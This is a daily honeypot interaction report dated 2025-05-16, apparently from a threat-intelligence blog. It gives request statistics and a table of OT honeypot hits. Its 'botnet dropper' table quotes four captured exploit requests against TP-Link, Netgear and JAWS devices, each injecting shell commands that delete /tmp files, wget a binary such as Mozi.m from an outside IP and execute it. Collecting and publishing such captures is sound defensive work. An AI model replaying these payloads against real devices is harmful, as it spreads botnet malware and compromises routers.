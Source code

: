 ```yaml
---
title: "Report: 2025-05-16 "
date: 2025-05-16
desciption: "Report: 2025-05-16" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-16 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 258 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1328 requests were recorded during the day, originating from 4 different countries, with a peak of 402 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                             |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.137   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1 |
| 123.129.130.253 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://123.129.130.253:53205/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                      |
| 196.189.10.187  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.135.194.174/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                         |
| 175.107.1.188   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://175.107.1.188:46194/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                        |
